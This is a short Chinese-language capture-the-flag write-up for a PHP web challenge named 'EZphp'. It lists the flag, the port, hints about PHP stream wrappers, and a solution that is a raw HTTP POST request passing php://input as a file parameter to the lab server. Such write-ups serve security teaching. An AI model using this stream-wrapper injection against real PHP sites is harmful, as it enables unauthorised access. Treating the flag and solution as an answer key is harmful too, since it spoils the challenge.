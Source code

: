 # 题目：EZphp

### 题目描述：我得想想怎么才能取而代之

### KEY: flag{phP_lS_th9_be5T_l4ngUa9e}

### 配置信息： 
1. 开放端口： `18080`

### 提示

1.php伪协议

2.php://input

### 解题过程：

```http
POST /?wsf=&zm=&xlq=1&fn=php://input HTTP/1.1
Host: 127.0.0.1:1031
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Enctype: application/x-www-from-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1

1
```

